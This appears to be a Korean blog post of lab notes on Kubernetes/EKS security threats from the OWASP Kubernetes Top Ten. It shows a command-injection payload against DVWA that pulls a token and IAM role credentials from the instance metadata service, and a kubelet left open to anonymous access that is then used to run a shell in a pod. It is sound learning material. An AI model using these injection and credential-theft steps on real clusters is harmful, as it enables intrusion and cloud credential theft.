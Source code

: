 ```yaml
---
published: true
layout: single
title: "[AEKS2] 6주차 - EKS Security: K8S 보안 위협"
excerpt: "6주차 - EKS Security: K8S 보안 위협 (OWASP Kubernetes Top Ten)"
categories: AWS
tag: [AWS, EKS, AEKS2, Kubernetes, Authentication, Authorization, OWASP]
toc: true
author_profile: false
sidebar:
    nav: "docs"
---
```


OWASP Kubernetes Top Ten에 K8S 보안 위협이 여럿 있다.

![Untitled](https://github.com/gain-yoo/gain-yoo.github.io/assets/100563973/37273c24-1ce9-4417-a0ed-1ab2bc99f503)


[https://awskoreamarketingasset.s3.amazonaws.com/2022 Summit/pdf/T10S1_EKS 환경을 더 효율적으로 더 안전하게.pdf](https://awskoreamarketingasset.s3.amazonaws.com/2022%20Summit/pdf/T10S1_EKS%20%ED%99%98%EA%B2%BD%EC%9D%84%20%EB%8D%94%20%ED%9A%A8%EC%9C%A8%EC%A0%81%EC%9C%BC%EB%A1%9C%20%EB%8D%94%20%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C.pdf)

이 중에서 몇 가지만 실습하고자 한다.

## POD의 IMDS API 악용

이번 실습은 EKS pod가 IMDS API를 악용하는 시나리오이다.

DVWA에서 자격증명을 탈취할 것이다.

DVWA(Damn Vulnerable Web Application)란,

취약점 진단 및 모의해킹을 할 수 있도록 만들어진 웹 어플리케이션이며, Command Injection 기능을 사용할 것이다.

[eks-practice/dvwa_webapp at main · choisungwook/eks-practice](https://github.com/choisungwook/eks-practice/tree/main/dvwa_webapp)

위 링크와 가시다님 노션을 참조하여 실습을 진행한다.

1. IMDS를 통해 토큰을 탈취한다.
    
    ```bash
    8.8.8.8 ; curl -s -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
    ```
    
    ![Untitled 1](https://github.com/gain-yoo/gain-yoo.github.io/assets/100563973/6176c4af-458b-4186-a4e0-9de7e327f564)

    
2. EC2 Instance Profile (IAM Role) 이름을 확인한다. 
    
    ```bash
    8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: AQAEAHxCDIrx1WLNl5Bl_eEqPd5JfioAzbAxsG1N8WeOkguX5hzvUQ==" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/
    ```
    
    ![Untitled 2](https://github.com/gain-yoo/gain-yoo.github.io/assets/100563973/e2b26c90-3e06-486b-9e83-2276fd8083cb)

    
3. 얻어낸 토큰과 Role 이름으로 EC2 Instance Profile (IAM Role) 자격 증명을 탈취할 수 있다. 
    
    ```bash
    8.8.8.8 ; curl -s -H "X-aws-ec2-metadata-token: AQAEAHxCDIrx1WLNl5Bl_eEqPd5JfioAzbAxsG1N8WeOkguX5hzvUQ==" –v http://169.254.169.254/latest/meta-data/iam/security-credentials/eksctl-myeks-nodegroup-ng1-NodeInstanceRole-3JfVrafnCvK1
    ```
    
    ![Untitled 3](https://github.com/gain-yoo/gain-yoo.github.io/assets/100563973/338a1b6a-7225-4009-a0e0-6aa9dc521c2a)

    

## Kubelet 미흡한 인증/인가 설정 시 위험

우선 kubelet의 사용 포트를 확인한다.

![Untitled 4](https://github.com/gain-yoo/gain-yoo.github.io/assets/100563973/f5586984-fc81-48fc-a886-1cea3d10927e)


awscli가 설치된 테스트 POD를 생성하고

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: **myawscli**
spec:
  #serviceAccountName: my-sa
  containers:
    - name: my-aws-cli
      image: amazon/aws-cli:latest
      command: ['sleep', '36000']
  restartPolicy: Never
  terminationGracePeriodSeconds: 0
EOF
```

### testuser 터미널 접속

기존 kubeconfig를 삭제하고 시작한다. 

실습을 위해 kubeletctl을 설치한다.

```bash
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.11/kubeletctl_linux_amd64 && chmod a+x ./kubeletctl_linux_amd64 && mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

myawscli POD가 설치된 노드를 확인한 후에 해당 노드에 요청을 날려 본다.

```bash
# curl -k https://$N1:10250/pods; echo
Unauthorized
```

kubeconfig가 없고 아무 권한이 없으니 Unauthorized로 거부당했다. 

### admin 터미널 접속

노드에 접속하여 kubelet-config.json를 수정한다.

```bash
sudo vi /etc/kubernetes/kubelet/kubelet-config.json
```

authentication의 anonymous와 authorization의 mode를 수정하였다.

![Untitled 5](https://github.com/gain-yoo/gain-yoo.github.io/assets/100563973/6c7de42c-6eb9-4d48-868b-b48de7dcb8d5)


kubelet을 재시작한다.

```bash
sudo systemctl restart kubelet
systemctl status kubelet
```

### 다시 testuser 터미널 접속

권한이 없었는데 이제 kubeconfig가 없어도 접근이 된다.

```bash
curl -s -k https://$N1:10250/pods | jq
curl -k https://$N1:10250/configz | jq
```

![Untitled 6](https://github.com/gain-yoo/gain-yoo.github.io/assets/100563973/93c32ba1-4b12-4104-bd68-6822f8a7f164)


POD 리스트도 볼 수 있는 것도 놀랐는데

`kubeletctl -s $N1 exec "/bin/bash" -n default -p myawscli -c my-aws-cli`

로 컨테이너에 접속해서 명령어 실행도 가능했다!!!

![Untitled 7](https://github.com/gain-yoo/gain-yoo.github.io/assets/100563973/3d4efd0e-b06b-4ecb-b9cd-debfb40c20a4)


아무래도 다른 무엇보다 kubelet 설정을 잘못해서 보안이 뚫리게 된다는게 제일 위험할 듯하다.

작년에 EKS Challenge를 도전해 본적이 있는데

이 문제를 풀다 보면 보안 허점을 느낄 수 있어, 한번 풀어 보는 것을 추천한다!

[[DevOps/Kubernetes] EKS Challenge 도전!](https://gain-yoo.github.io/kubernetes/53/)
